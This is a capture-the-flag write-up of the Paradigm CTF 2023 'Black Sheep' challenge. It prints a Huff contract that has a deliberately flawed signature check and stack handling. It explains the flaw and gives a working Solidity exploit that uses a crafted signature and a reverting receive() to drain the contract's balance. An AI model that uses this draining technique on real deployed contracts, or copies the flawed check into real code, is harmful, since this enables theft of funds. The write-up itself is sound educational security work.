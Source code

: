 # Paradigm CTF 2023 - Black Sheep - Solution

<!-- MarkdownTOC levels="1,2,3" autolink="true" -->

- [Introduction](#introduction)
- [The Contract](#the-contract)
- [Contract Analysis](#contract-analysis)
  - [1. The `withdraw` Function](#1-the-withdraw-function)
  - [2. Identifying the Vulnerability](#2-identifying-the-vulnerability)
- [Exploit Construction](#exploit-construction)
- [Generating a Valid Signature](#generating-a-valid-signature)
- [Exploit Code](#exploit-code)
- [Conclusion](#conclusion)
- [Repositories](#repositories)

<!-- /MarkdownTOC -->

## Introduction

In this article we'll discuss the solution to the challenge from the Paradigm CTF 2023 called "Black Sheep." The contract is written in Huff, a low-level language designed for Ethereum Virtual Machine (EVM) development. As someone passionate about low-level EVM security research, this was an exciting opportunity to dive deep into Huff.

## The Contract

```asm
/* Interface */
#define function withdraw(bytes32,uint8,bytes32,bytes32) payable returns ()


#define macro CHECKVALUE() = takes (0) returns (0) {
    callvalue 0x10 gt over jumpi
    0x00 dup1 revert
    over:
        0x00
        0x00
        0x00
        0x00
        callvalue 0x02 mul
        caller
        0xFFFFFFFF
        call
}
#define macro CHECKSIG() = takes (0) returns (1) {
    0x04 calldataload
    0x00 mstore
    0x24 calldataload
    0x20 mstore
    0x44 calldataload
    0x40 mstore
    0x64 calldataload
    0x60 mstore
    0x20
    0x80
    0x80
    0x00
    0x1
    0xFFFFFFFF
    staticcall
    iszero invalidSigner jumpi
    0x80 mload
    0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044 eq correctSigner jumpi
    end jump

    correctSigner:
        0x00
        end jump
    invalidSigner:
        0x01
        end jump
    end:
}
#define macro WITHDRAW() = takes (0) returns (0){
    CHECKVALUE()
    CHECKSIG()
    iszero iszero noauth jumpi
    0x00 dup1 dup1 dup1
    selfbalance caller
    gas call
    end jump
    noauth:
        0x00 dup1 revert
    end:
}


#define macro MAIN() = takes (0) returns (0) {
    // Identify which function is being called.
    0x00 calldataload 0xE0 shr
    dup1 __FUNC_SIG(withdraw) eq withdrawj jumpi
    callvalue 0x00 lt recieve jumpi

    0x00 0x00 revert

    withdrawj:
        WITHDRAW()
    recieve:
}
```

## Contract Analysis

### 1. The `withdraw` Function

The function `withdraw(bytes32,uint8,bytes32,bytes32)` maps to the `WITHDRAW()` macro. It relies on two sub-macros:

- **`CHECKVALUE()`**: Verifies `msg.value` and reverts if it's more than `0x10` wei. If valid, it doubles the amount and sends it back.
- **`CHECKSIG()`**: Calls the precompiled contract `ecrecover` (at address `0x1`) to verify the signature against a specific address.

### 2. Identifying the Vulnerability

- **Signature Validation Issue:** The contract allows any valid signature, even from addresses other than the intended signer (`0xd8dA6Bf26964AF9D7eed9e03e53415D37AA96044`).
- **Redundant `ISZERO` Usage:** The use of `ISZERO` twice doesn't add value; it leaves the stack unchanged. This quirk is not critical for the exploit and may be distractive.
- **Fallback Stack Behavior:** In this particular case, the returned value from
  `CHECKVALUE()`'s `CALL` is used by `JUMPI` if `CHECKSIG()` doesn't push a value.
  This behavior influences the control flow, as `JUMPI` will rely on whatever
  happens to be on top of the stack.

## Exploit Construction

1. Deploy an Attack Contract:
  - The `receive()` function should revert when `msg.value == 0x12` to ensure `CALL` returns `0x0`.
  - Otherwise, it should succeed to collect the funds.

2. Trigger the Vulnerability:
  - Call `withdraw()` with either:
    - A valid signature from any address.
    - Or the tuple `(0x00, 27, 0x00, 0x00)` which results in a non-zero response from `ecrecover`.

## Generating a Valid Signature

We can use `cast` to create an address and generate a valid signature.

<p style="text-align: center;">
  <img width="600" src="/docs/assets/img/black-sheep-01.png">
</p>

## Exploit Code

```solidity
function testExploit() public {
    bytes32 msgHash = keccak256("Black Sheep");
    bytes32 r = 0x9f2c9ed6b027b594f5072cc39b6c5ffca1ca157ad5b661d0d268c577eede360c;
    bytes32 s = 0x52e8bf726d82a28ebd9b172efba7e75fd0671f6c1544b5a5b70ad803de360e33;
    uint8 v = 27;
    bank.withdraw{value: 0x09}(msgHash, v, r, s);

    assertEq(address(Challenge(challengeAddress).BANK()).balance, 0);
}

receive() external payable {
  if (msg.value == 0x12) {
    revert("");
  }
}
```

## Conclusion

This challenge highlighted the nuances of stack manipulation in Huff and the
critical importance of careful flow control, especially for security-related
validations. It also underscores the need for robust signature verification.

To prevent vulnerabilities like signature malleability, contracts should
implement additional controls. For example, the tuple `(0x00, 27, 0x00, 0x00)`
is considered valid by `ecrecover`, so contracts relying on signature
validation must properly handle such cases to prevent misuse.

Additionally, signatures should be bound to specific messages to prevent
replay attacks. Validation checks must ensure only authorized signers are
accepted to maintain the contract's security posture.

Incorporating these best practices helps build more secure smart contracts
and reduces the risk of common attack vectors.

## Repositories

* [https://github.com/bentobox19/paradigm-ctf](https://github.com/bentobox19/paradigm-ctf)
* [https://github.com/paradigmxyz/paradigm-ctf-2023](https://github.com/paradigmxyz/paradigm-ctf-2023)
